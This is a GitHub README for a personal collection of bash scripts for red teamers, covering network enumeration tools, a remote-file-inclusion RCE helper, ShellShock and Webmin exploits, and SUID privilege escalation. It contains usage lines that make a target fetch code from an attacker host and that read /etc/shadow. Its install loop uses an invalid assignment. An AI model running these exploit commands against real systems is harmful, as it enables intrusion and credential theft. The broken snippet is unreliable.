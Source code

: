 # Bash
Collection of bash scripts I wrote to make my life easier or test myself that you may find useful. The help switch defined for these scripts is written with the assumption these exist in a PATH environmnet variable. Typically commands such as these should be placed in /usr/local/bin. This is considered best practice for Linux.Most of these tools will be useful to Red Teamers

## ADD COMMANDS TO /usr/local/bin
Enter the below commands to download this repo, make the .sh files executable and place the .sh executable files into your /usr/local/bin so you can use for example "getip" instead of ./getip.sh to execute the commands.
```sh
git clone https://github.com/tobor88/Bash
cd Bash
sudo chmod u+x *.sh
$files=$(ls | grep ".sh")
for f in $files; do cp "$f" /usr/local/bin/"${f%.sh}"; done
```

#### BASH COMMANDS
- __readid.sh__ This is complete. (Disaplys the /etc/passwd, /etc/shadow, or /etc/group files into an easy to read format)

![readid.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/readid_img.png)


- __getip.sh__ I view this as done. (Restrieves and displays the public and private IP addresses on a computer)

![getip.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/getip_img.png)


- __pingsweep.sh__ This works best when fping is installed on your Linux distro. If fping is not installed it will failover to using the ping command instead. The timeout for ping is set to 1 second so if you are using this with proxychains you may need to mess around with this setting.

![pingsweep.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/pingsweep_img.png)


- __portscan.sh__ In the future I will add more input validation and error handling. (Custom port scanner. Check all ports, one port, or a custom range of ports.)

![portscan.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/portscan_img.png)


- __massnmp.sh__ Script I built to quickly obtain SNMP information from a defined subnet range. This was written for Kali so it uses OneSixtyOne and SNMP-Check. If these are not already installed they will need to be for the script to work. This script will build 3 files in your /tmp directory which means on next restart they will be deleted. Enumerated SNMP info on different targets will be placed into a txt file in the $PWD the script was executed from.

![massnmp.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/massnmp.png)


- __absolutepathit.sh__ This command is used to convert all relative commands in a script to absolute path commands. To play this one safe I have it create a copy of the script you wrote and places it in a file called /tmp/absolutepathit_tmpinfo. This file has all comments removed from it and replaces any commands that have a result value obtained from the command $(which <cmd>) with the absolute path value result for that command. 
 Copy and paste the results into your script to ensure you dont lost your comments and to ensure any possible command words you have in echo quotations are what you want. 
 This is not perfect yet as you can see in the image below it misses curl.
 
 ![absolutepathit.sh results](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img.png) 

 To deal with that issue I added line 40 which will obtain commands that are located next to a ( character. This does not misinterpret _print_ in the __awk__ command. 
 
 ![absolutepathit.sh results improvement](https://raw.githubusercontent.com/tobor88/Bash/master/absolutepathit_img2.png)
 
 The issue I noticed came from another script came from a website in the bash script. This is because the slash is viewed as an escape character. Any contributions are welcome. This is still a work in progress.

- __rfi-rce.sh__ This is a command that can be used to simplify RCE by exploiting it in a shell like fashion.
```bash
rfi-rce -f /var/www/html/evil.txt -u "http://target-ip/section.php?page=http://attacker-ip/evil.txt"
```
![rfi-rce.sh](https://raw.githubusercontent.com/tobor88/Bash/master/rfi-rce.png)

- __enablespoofing.sh__ This is a simple script meant to take care of the tasks neccessary to allow dns spoofing on Kali Linux. It enables port forwarding on ipv4 and allows DNS traffic.

- __dnslookup.sh__ This command is meant to perform a mas dns lookup based on an IPv4 address range. Returns output in the below format
```sh
--------------------------------------------
| IP Address              |     FQDN's     |
--------------------------------------------
2.2.0.10.in-addr.arpa DC.osbornepro.com.
4.2.0.10.in-addr.arpa DEV.osbornepro.com.
```

- __enum_dns_servers.sh__ This command is meant to return the DNS servers in a domain. This is most useful when having a local domains DNS server set in your /etc/resolv.conf file.
```sh
---------------
| DNS Servers |
---------------
dns1.osbornepro.com.
dns2.osbornepro.com.
```
- __CVE-2014-6271.sh__ This exploit is used to execute commands on a remote server vulnerable to the CVE-2014-6271 ShellShock vulnerability. It creates a webshell at /var/www/html/simple.php and uses curl to simulate a shell like session. Currently only able to issue one word commads. I plan adding more functionality in the future.
![ShellShock CVE-2015-6271](https://raw.githubusercontent.com/tobor88/Bash/master/shellshock.png)

- __CVE-2006-3392.sh__ This exploit is used to perform an unauthenticated remote file disclosure on Webmin version <1.29x.
```bash
./CVE-2006-3392.sh 10.11.1.141 10000 http /etc/shadow
```
![CVE-2006-3392](https://raw.githubusercontent.com/tobor88/Bash/master/cve20063392.png)

- __rcp-suid-privesc.sh__ This can be used to exploit the SUID bit on rcp. This only works on certain Operating Systems. Successfully tested on Red Hat 6.2. THere is a perl version of this script on exploitdb.

- __suidcheck.sh__ Needs a lot of work (Checks for exploitable suid bits and attempts to exploit them if they exist. Also returns cron job scripts)
